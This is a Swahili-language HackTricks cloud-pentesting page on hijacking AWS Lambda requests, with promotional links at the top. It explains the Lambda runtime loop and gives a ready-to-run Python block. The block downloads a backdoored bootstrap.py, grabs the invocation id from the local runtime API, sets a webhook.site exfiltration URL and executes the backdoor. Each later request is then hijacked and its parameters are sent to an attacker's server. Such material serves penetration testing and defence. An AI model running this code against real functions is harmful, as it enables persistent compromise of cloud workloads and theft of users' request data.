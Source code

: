 # AWS - Iba Lambda Maombi

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Mchakato wa Lambda

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** ni mchakato nje ya chombo ambao **hutuma** **wito** kwa mchakato wa **init**.
2. Mchakato wa init husikiliza kwenye bandari **9001** ukiweka wazi baadhi ya vituo vya kupendeza:
* **`/2018-06-01/runtime/invocation/next`** – pata tukio la wito linalofuata
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – rudisha jibu la kushughulikia kwa wito
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – rudisha kosa la utekelezaji
3. **bootstrap.py** ina mzunguko unapata maombi kutoka kwa mchakato wa init na kuita nambari ya mtumiaji kushughulikia (**`/next`).
4. Hatimaye, **bootstrap.py** inatuma kwa init **jibu**

Tambua kwamba bootstrap inapakia nambari ya mtumiaji kama moduli, hivyo utekelezaji wa nambari uliofanywa na nambari ya mtumiaji kimsingi unatokea katika mchakato huu.

## Kuiba Maombi ya Lambda

Lengo la shambulio hili ni kufanya nambari ya mtumiaji itekeleze mchakato mbaya wa **`bootstrap.py`** ndani ya mchakato wa **`bootstrap.py`** ambao unashughulikia ombi lenye kasoro. Kwa njia hii, mchakato wa **bootstrap mbaya** utaanza **kuzungumza na mchakato wa init** kushughulikia maombi wakati **bootstrap halali** umefungwa ukiendesha ule mbaya, hivyo hautauliza maombi kwa mchakato wa init.&#x20;

Hii ni kazi rahisi kufanikisha kwani nambari ya mtumiaji inatekelezwa na **`bootstrap.py`** halali. Kwa hivyo, muhusika anaweza:

* **Tuma matokeo bandia ya wito wa sasa kwa mchakato wa init**, hivyo init inadhani mchakato wa bootstrap unangojea maombi zaidi.
* Ombi lazima litumwe kwa **`/${invoke-id}/response`**&#x20;
* Invoke-id inaweza kupatikana kutoka kwenye rundo la **`bootstrap.py`** halali kutumia moduli ya python ya [**inspect**](https://docs.python.org/3/library/inspect.html) (kama [ilivyopendekezwa hapa](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) au tu kuomba tena kwa **`/2018-06-01/runtime/invocation/next`** (kama [ilivyopendekezwa hapa](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Tekeleza **`boostrap.py`** mbaya ambayo itashughulikia maombi yajayo
* Kwa madhumuni ya kuficha, inawezekana kutuma vigezo vya maombi ya lambda kwa C2 inayodhibitiwa na muhusika na kisha kushughulikia maombi kama kawaida.
* Kwa shambulio hili, ni vya kutosha kupata nambari ya asili ya **`bootstrap.py`** kutoka kwenye mfumo au [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), ongeza nambari mbaya na uitekeleze kutoka kwa wito wa lambda wa sasa.

### Hatua za Shambulio

1. Pata **udhaifu wa RCE**.
2. Zalisha **bootstrap** mbaya (k.m. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Tekeleza** bootstrap mbaya.

Unaweza kufanya vitendo hivi kwa urahisi ukiendesha:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Get invocation id
resp = http.request("GET", "127.0.0.1:9001/2018-06-01/runtime/invocation/next")
invoke_id = resp.headers["Lambda-Runtime-Aws-Request-Id"]

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Kwa maelezo zaidi angalia [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Marejeo

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)
